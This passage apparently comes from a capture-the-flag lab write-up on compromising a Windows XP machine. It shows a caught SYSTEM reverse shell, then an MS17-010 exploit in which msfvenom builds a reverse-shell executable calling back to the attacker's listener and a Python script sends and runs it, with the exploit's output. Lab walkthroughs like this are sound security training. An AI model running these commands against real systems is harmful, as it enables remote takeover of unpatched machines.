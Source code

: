```
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.4] 1031
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>net user 
net user 

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    HelpAssistant            
john                     SUPPORT_388945a0         
The command completed with one or more errors.


C:\WINDOWS\system32>
```

As the exploit finishes, we are successful in getting a shell back. Since it is **NT Authority\System**, we do not need any sort of privilege escalation.

Now let us do the exact same thing using the other bug.

# [](#header-1)EXPLOITING MS17-010:

This bug also has tons of exploits available on Github. But I am particularly interested in this [one](https://github.com/helviojunior/MS17-010) by **Helviojunior**. Because with this you just have to generate a **reverse shell exe** file. Then it has a python script that sends the file and executes it for you. So cool.

First things first, let us generate an **exe** file. Again, I am going to use **msfvenom**.

```
root@kali:/opt/MS17-010# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o reverse-shell.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: reverse-shell.exe
root@kali:/opt/MS17-010# file reverse-shell.exe 
reverse-shell.exe: PE32 executable (GUI) Intel 80386, for MS Windows
```

Again I am using the same flags except this time I am using the **-o** option to specify the output in **exe** format.

All set, now you just need to run the `send_and_execute.py` with correct arguments. Also do not forget to set up a listener on your specified port.

```
(py2) root@kali:/opt/MS17-010# python send_and_execute.py 10.10.10.4 reverse-shell.exe 
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x81b74c28
SESSION: 0xe1bd1a70
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
```
